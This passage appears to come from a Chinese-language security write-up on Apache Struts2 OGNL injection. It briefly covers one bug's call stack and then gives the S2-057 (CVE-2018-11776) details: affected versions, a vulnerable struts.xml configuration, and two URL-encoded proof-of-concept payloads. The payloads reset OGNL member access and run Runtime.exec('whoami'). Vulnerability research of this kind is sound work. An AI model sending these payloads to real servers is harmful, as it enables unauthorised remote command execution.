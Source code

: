 此时再被Struts2的标签进行处理，由于标签存在Ognl表达式注入，所以造成漏洞；

这个标签的处理类为 `org.apache.struts2.components.URL` ，漏洞触发点在其 `start(Writer writer)` 方法。调用栈如下：

![image-20210817150451734](/media/image-20210817150451734.png)

RCE证明如下：

![image-20210817150540591](/media/image-20210817150540591.png)

## S2-057

影响版本：Struts 2.0.4 - Struts 2.3.34, Struts 2.5.0 - Struts 2.5.16

CVE编号：CVE-2018-11776

POC如下：

```java
/%24%7B%28%23_memberAccess%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23w%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/index.action

/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/index.action
```

这个漏洞需要存在类似如下的配置：

```xml
<struts>
    <constant name="struts.mapper.alwaysSelectFullNamespace" value="true"/>
    <constant name="struts.devMode" value="false"/>
    <constant name="struts.enable.DynamicMethodInvocation" value="false" />
    <package name="struts2" extends="struts-default">
        <action name="index" class="demo.Index">
            <result type="redirectAction" name="SUCCESS">
                <param name="actionName">test</param>
            </result>
        </action>
    </package>

    <package name="struts3" extends="struts-default">
        <action name="test" class="demo.Index">
            <result type="freemarker" name="SUCCESS">/WEB-INF/ftl/index.ftl</result>
        </action>
    </package>
</struts>
```
